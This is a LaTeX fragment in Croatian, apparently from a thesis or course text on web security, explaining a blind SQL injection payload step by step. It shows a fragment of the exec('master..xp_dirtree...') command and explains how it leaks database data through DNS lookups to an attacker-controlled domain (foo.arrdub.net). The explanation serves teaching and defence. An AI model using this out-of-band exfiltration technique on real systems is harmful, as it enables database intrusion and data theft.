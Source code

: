 \documentclass[12pt, oneside, onecolumn]{book}
\begin{document}
{\begin{figure}[H]
	\begin{center}
		\includegraphics[width=\textwidth]{bsqli_payd.jpg}
		\caption{URL dekodiran maliciozna SQL naredba} \label{fig:bsqli_payd}
	\end{center}
\end{figure}

Ova maliciozna naredba se sastoji od više SQL upita. U prvoj liniji se nalazi jednostruki navodnik \texttt{'} i točka zarez \texttt{;}, koji služe da se završi SQL upit na serveru kojim se dohvaćaju detalji korisnika na osnovu kolačića. U drugom SQL upitu se deklarira varijabla \texttt{@p} tipa \texttt{varchar}. Zatim se u sljedećem SQL upitu za vrijednost varijable \texttt{@p} postavlja SQL upit kojim se dohvaća korisničko ime korisnika s identifikacijskim brojem 2. Tablica nad kojom napadač dohvaća podatke korisnika s identifikacijskim brojem 2 je prikazana na slici \ref{fig:bsqli_usrs}.

\begin{figure}[H]
	\begin{center}
		\includegraphics[width=0.5\textwidth]{bsqli_usrs.jpg}
		\caption{Tablica iz koje se dohvaćaju podatci} \label{fig:bsqli_usrs}
	\end{center}
\end{figure}

Na kraju se u zadnjem SQL upitu s naredbom \texttt{exec('master..xp\_dirtree"//YOUR-URL"')} generira DNS upit na zadani URL. Napadač kreira željeni URL tako da se podatci koji se izvlače iz baze podataka stavljaju na mjesto poddomene. Podatci koji se žele izvući iz baze podataka su spremljeni u varijablu \texttt{@p}. Za domenu, napadač postavlja domenu za koju ima postavljeni DNS server, što znači da u ovom slučaju domena glasi \texttt{foo.arrdub.net}. Iza domene se stavlja stranica \texttt{a} koja ne postoji, ali će se zato ona zatražiti preko DNS upita koji će ostaviti trag. Posljednji SQL upit je zaključen s točkom zarez \texttt{;} i dva minusa \texttt{--} kojima se završava SQL upi te komentira bilo koji dio originalnog SQL upita koji bi moga spriječiti izvođenje napada.

}
\end{document}
